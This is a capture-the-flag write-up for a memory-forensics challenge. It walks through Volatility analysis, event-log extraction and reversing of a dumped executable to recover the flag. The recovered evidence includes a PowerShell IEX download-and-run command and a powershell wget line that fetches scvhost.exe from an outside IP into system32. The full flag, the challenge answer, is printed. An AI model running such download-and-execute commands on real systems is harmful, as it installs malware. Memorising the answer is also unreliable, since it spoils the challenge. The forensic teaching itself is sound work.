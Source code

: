 # Greek ECSC Quals 2020 - Forensics - Forgotten

### Description
```
We suspect that our network has been compromised. Could you investigate and see if there's any suspicious activity?
```
The challenge provides a `forgotten.raw` file. First things first, we open **volatility** to analyze it. 
Not knowing a lot about forensics, these 2 were my guides: 
* https://github.com/volatilityfoundation/volatility/wiki/Command-Reference
* volatility -h

So, we start by executing:
```sh
$ volatility -f ./forgotten.raw imageinfo
```
Results: 
```
Volatility Foundation Volatility Framework 2.6
INFO    : volatility.debug    : Determining profile based on KDBG search...
          Suggested Profile(s) : Win8SP0x64, Win2012R2x64_18340, Win2012R2x64, Win2012x64, Win8SP1x64_18340, Win8SP1x64
                     AS Layer1 : SkipDuplicatesAMD64PagedMemory (Kernel AS)
                     AS Layer2 : FileAddressSpace (/home/w3th4nds/ctfs/ecsc2020_quals/forensics/forg/forgotten.raw)
                      PAE type : No PAE
                           DTB : 0x1aa000L
                          KDBG : 0xf80070720530L
          Number of Processors : 1
     Image Type (Service Pack) : 0
                KPCR for CPU 0 : 0xfffff8007077d000L
             KUSER_SHARED_DATA : 0xfffff78000000000L
           Image date and time : 2020-04-22 10:07:20 UTC+0000
     Image local date and time : 2020-04-22 15:37:20 +0530
```
From this information, we are interested in the ` Suggested profile(s)`
After many tries, I found that the correct profile is the **second** and **not** the **first** one.  
profile: `Win81U1x64`

After trying many of the commands of the -h manual, `clipboard` was the one that brought me some interesting results.
```
$ volatility -f ./forgotten.raw --profile=Win81U1x64 clipboard
```

Results:
```
Volatility Foundation Volatility Framework 2.6
Session    WindowStation Format                         Handle Object             Data                                              
---------- ------------- ------------------ ------------------ ------------------ --------------------------------------------------
         1 WinSta0       CF_UNICODETEXT               0x15016b 0xfffff901406ee3b0 IEX(New-Object Net.WebCl...68.153.132/script.ps1')
         1 WinSta0       0x0L                             0x10 ------------------                                                   
         1 WinSta0       0x0L                              0x0 ------------------                                                   
         1 WinSta0       CF_TEXT                0x200000000000 ------------------                                                   
         1 ------------- ------------------           0x16008f 0xfffff9014073b2f0 
```
I searched the internet and found that **IEX** is related to `powershell` so my next thought was to extract the event logs to see if something was typed in cmd or what was downloaded and relate it to powershell.
The commands I tried from the -h did not help me. 
I searched for an extractor at google and got this: https://www.andreafortuna.org/2017/07/20/how-to-recover-event-logs-from-a-windows-memory-image/
After installing the tool, we execute the command:
```sh
$ ./evtxtract forgotten.raw > out.xml
```
Opening the .xml in an editor and search for "powershell".
First thing we found: 
```
Host Application = C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -c wget -Uri http://192.157.3.33/scvhost.exe -outfile C:\windows\system32\scvhost.exe
```
Now that we found the "malicious" file, we need to dump it in order to analyze it.
In order to dump it, we need to find it's offset.
The `filescan` command will do the job.
```
$ volatility -f ./forgotten.raw --profile=Win81U1x64 filescan | grep "scvhost.exe"
Volatility Foundation Volatility Framework 2.6
0x000000003d82c6d0     26      0 R--r-d \Device\HarddiskVolume1\Windows\System32\scvhost.exe
```

Now that we found the offset, we need to dump it.
Once again, our friend -h will help us.
```
$ volatility -f ./forgotten.raw --profile=Win81U1x64 dumpfiles -Q 0x000000003d82c6d0 -D ./dumpfile/ 
Volatility Foundation Volatility Framework 2.6
ImageSectionObject 0x3d82c6d0   None   \Device\HarddiskVolume1\Windows\System32\scvhost.exe
DataSectionObject 0x3d82c6d0   None   \Device\HarddiskVolume1\Windows\System32\scvhost.exe
```
Now that we dumped it, we have the file `file.None.0xffffe00094bd09f0.dat`
```sh
$ file file.None.0xffffe00094bd09f0.dat 
file.None.0xffffe00094bd09f0.dat: PE32+ executable (console) x86-64, for MS Windows
```
Now it's finally time for some ***REVERSE ENGINEERING***.
Open the executable in **IDA**.
We didn't even start and in main we see many initialiazations of variables with hex values.

![ida](https://i.imgur.com/jou6Gwq.png)

Trying to convert the first value from hex to ascii and we get:
```sh
$ python -c 'print(chr(0x48))'
H
```
So we found that this is the flag.
Tiny script to convert the values.

```python
enc = [0x48,0x54,0x42,0x7b,0x41,0x6e,0x44,0x5f,0x37,0x48,0x61,0x37,0x35,0x5f,0x68,0x4f,0x57,0x5f,0x33,0x56,0x33,0x4e,0x37,0x5f,0x56,0x49,0x33,0x77,0x33,0x52,0x5f,0x57,0x6f,0x72,0x6b,0x32,0x7d]

flag = ''
for i in enc:
    flag += chr(i)
print('Flag: {}'.format(flag))
```
```sh
python3 dec.py 
Flag: HTB{AnD_7Ha75_hOW_3V3N7_VI3w3R_Work2}
```
**Flag: HTB{AnD_7Ha75_hOW_3V3N7_VI3w3R_Work2}** 

